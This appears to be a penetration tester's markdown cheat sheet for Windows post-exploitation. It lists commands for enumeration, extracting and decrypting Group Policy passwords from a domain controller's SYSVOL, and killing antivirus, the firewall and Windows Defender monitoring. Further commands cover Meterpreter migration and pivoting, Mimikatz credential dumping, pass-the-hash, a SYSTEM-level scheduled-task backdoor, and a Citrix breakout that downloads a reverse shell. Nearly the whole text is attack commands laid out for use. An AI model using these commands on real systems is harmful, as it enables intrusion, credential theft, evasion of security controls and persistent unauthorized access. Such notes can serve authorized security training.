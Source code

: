 ```whoami```

```net user /whoami```

```whoami /priv```

```ipconfig```

```systeminfo```

Run ```wesng```

What architecture?

Run enum script

Upload accesschk if not present

Run Batch or PS scripts

#### Identify  IP and name of internal DC ####

##### Map DC drive to local #####

```net use z: \\$dc\sysvol```

```z:```
##### Search for interesting files #####

```dir /s Groups.xml```

##### If getting this far, copy to local and decrypt #### 

```gpp-decrypt $hash```

#### AV Running? I can killz?

```tasklist /svc```

```tasklist /svc | find /I “avg”```

Powershell: ```Get-WmiObject -Namespace "root\SecurityCenter2" -Class AntiVirusProduct  -ComputerName $name```

Batch: ```wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayNamed```

```sc stop $process```

```sc config "service name" start= disabled```

```taskkill /F /IM $avprocess.exe```

```net stop “service name"```

#### Command Execution Restrictions ####

Check lolbas

##### rundll32? #####

```rundll32 $full_path_to_evil.dll,EntryPoint```


##### FW? #####

```netsh firewall show opmode```

```netsh firewall set opmode mode=disable```


##### Stop WInDefend Monitoring #####

```Set-MpPreference -DisableRealtimeMonitoring $true```

##### Migrate Meterpreter 32 -> 64 bit

meterpreter: ```ps -S "winlogon"```

meterpreter: ```migrate $new_pid```

##### Mimikatz

meterpreter: ```load mimikatz```

meterpreter: ```msv```

meterpreter: ```kerberos```

### Pivot 

#### Meterpreter 

1. Note IP address

2. Exit shell

3. Background Meterpreter

4. ```route add 10.10.0.0 255.255.255.0 $sessionNumber```

NOTE: *10.10.0.0 indicates the target internal network*

5. Reconnect to session

6. portfwd add -l $local_port -p $remote_port -r $target_ip 

##### Pass the Hash (PTH)

1. Acquire password

2. Get winexe

3. Set up port forward if required

4. ```Kali:~# winexe -U $username%password //127.0.0.1 "cmd"```

#### Once Admin Set Up Persistent Backdoor

NOTE: *pwn == Task name*

```schtasks /create /ru SYSTEM /sc minute /MO 10 /tn $pwn /tr "\C:\evil.exe""```

```C:\ exit```

```meterpreter: portfwd delete -l $local_port -p $remote_port -r $target_ip ```

```background```

Start new handler and wait

#### Citrix

Login

What apps are available?

Open other programs?

##### Example: Internet Explorer #####

Click Help

Open notepad

Save 'powershell' to .bat file

Use Notepad again to open .bat (Run it)

Download new reverse shell

Handle with meterpreter

#### Elevate Existing Process via privesc exploit

Get meterpreter pid

```meterpreter: getpid```

```meterpreter: execute -H -f evil.exe -p "-pid $pid"```

